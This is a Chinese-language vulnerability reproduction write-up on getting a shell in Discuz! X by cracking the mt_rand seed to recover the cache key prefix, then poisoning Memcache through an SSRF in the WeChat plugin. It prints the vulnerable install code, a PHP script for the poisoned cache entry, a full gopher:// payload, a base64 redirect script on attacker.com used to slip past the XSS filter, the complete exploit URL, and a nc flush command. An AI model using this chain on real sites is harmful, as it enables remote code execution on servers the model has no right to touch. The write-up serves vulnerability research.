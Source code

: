 Discuz! X authkey+Memcache+ssrf getshell
========================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](./.resource/Discuz!Xauthkey+Memcache+ssrfgetshell/media/rId24.jpg)

Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF
要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php` 345-357行：

            $uid = DZUCFULL ? 1 : $adminuser['uid'];
            $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
            $_config['db'][1]['dbhost'] = $dbhost;
            $_config['db'][1]['dbname'] = $dbname;
            $_config['db'][1]['dbpw'] = $dbpw;
            $_config['db'][1]['dbuser'] = $dbuser;
            $_config['db'][1]['tablepre'] = $tablepre;
            $_config['admincp']['founder'] = (string)$uid;
            $_config['security']['authkey'] = $authkey;
            $_config['cookie']['cookiepre'] = random(4).'_';
            $_config['memory']['prefix'] = random(6).'_';

            save_config_file(ROOT_PATH.CONFIG, $_config, $default_config);

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie
前缀以及缓存键名前缀，其中用到了`random`函数生成随机字符串。所以跟进这个`random`：

    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }

可以发现，如果 PHP 版本大于 4.2.0，那么 `mt_rand`
随机数的种子是不变的。也就是说，生成 authkey、Cookie
前缀以及缓存键名前缀时调用的 `mt_rand` 用的都是同一个种子，而 Cookie
前缀是已知的，通过观察 HTTP
请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用
[php\_mt\_seed](https://link.zhihu.com/?target=http%3A//www.openwall.com/php_mt_seed/README)
进行种子爆破。

通过 `mt_rand` 种子的猜解，缓存键名前缀的可能性从 62\^6 缩小到不到 1000
个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造
SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache
缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来
getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，`output_replace`
函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的
payload。写这样一段代码（先假设缓存键名前缀是 `IwRW7l`）:

    <?php

    $_G['setting']['output']['preg']['search']['plugins'] = '/.*/';
    $_G['setting']['output']['preg']['replace']['plugins'] = 'phpinfo()';
    $_G['setting']['rewritestatus'] = 1;

    $memcache = new Memcache;
    $memcache->connect('localhost', 11211) or die ("Could not connect");
    $memcache->set('IwRW7l_setting', $_G['setting']);

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：

    gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D

但是直接用它去 SSRF
是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

image

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：

    <?php

    $url = base64_decode($_REQUEST['url']);
    header( "Location: " . $url );

这样就可以将 SSRF URL 进行 base64 编码从而规避`_xss_check`的检测。

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![](./.resource/Discuz!Xauthkey+Memcache+ssrfgetshell/media/rId26.png)

由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次
getshell 后执行以下命令，网站就可以恢复正常：

    echo -e 'flush_all' | nc localhost 11211

参考链接
--------

> https://zhuanlan.zhihu.com/p/51907363
